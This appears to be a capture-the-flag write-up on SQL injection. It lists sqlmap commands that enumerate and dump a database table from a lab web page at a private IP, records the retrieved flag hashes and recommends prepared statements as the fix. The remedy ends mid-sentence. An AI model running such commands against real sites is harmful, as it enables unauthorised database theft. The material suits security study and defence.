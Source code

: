 # SQL_Injection
Ahhhh the notorious SQL Injection again. blah blah blah we know the drill. However this time we will make use of a web scanning programme, that will not only find the web application's vulnerabilities but also also exploit them for us. It is called sqlmap.

## Example
For this part we will be making use of out terminal. We'll use the same url like the one we used in SQL_Injection. By using a series of commands we will not only be able to view the database but also save and make use of it's contents

## Commands
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a>
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dbs
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --tables -D Member_images
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --columns -D Member_images -T list_mages
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dump -D Member_images -T list_mages
> options [Y, Y, D, N]
## Retrieved Data
* flag md5 : 1928e8083cf461a51303633093573c46
* flag sh256: 5d5b09f6dcb2d53a5fffc60c4ac0d55fabdf556069d6631545f42aa6e3500f2e

## Remedy
* Similar to direct SQL_Injection this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input. sqlmap simply 

# Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc